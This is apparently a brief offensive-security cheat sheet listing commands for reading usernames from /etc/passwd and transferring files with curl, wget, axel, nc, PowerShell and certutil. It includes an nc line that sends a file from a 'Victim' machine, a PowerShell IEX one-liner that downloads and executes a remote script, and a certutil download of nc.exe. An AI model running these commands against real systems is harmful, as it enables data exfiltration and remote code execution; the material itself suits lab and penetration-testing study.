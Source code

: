 ![image](https://user-images.githubusercontent.com/68326057/118384023-9df1a480-b620-11eb-812f-4104c1d11d65.png)


# Cut

To grep Only Usernames:-

```bash
cat /etc/passwd | grep bash | cut -d ":" -f 1
```

# To Download FILEs


## CURL
```bash
curl -O url
```

## WGET
```bash
wget url -o output
```

## axel
```bash
axel -a -n 20 -o output url
```

## nc

```bash
My machine 
sudo nc -l -p 999 > file

On Victim
nc.exe -w 5 MYIP 999 < file
```

## Powershell

```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/ipw.ps1')"  // directly execute command
```

## certutil

```bash
certutil -urlcache -f http://10.9.53.25:8000/nc.exe nc.exe
```
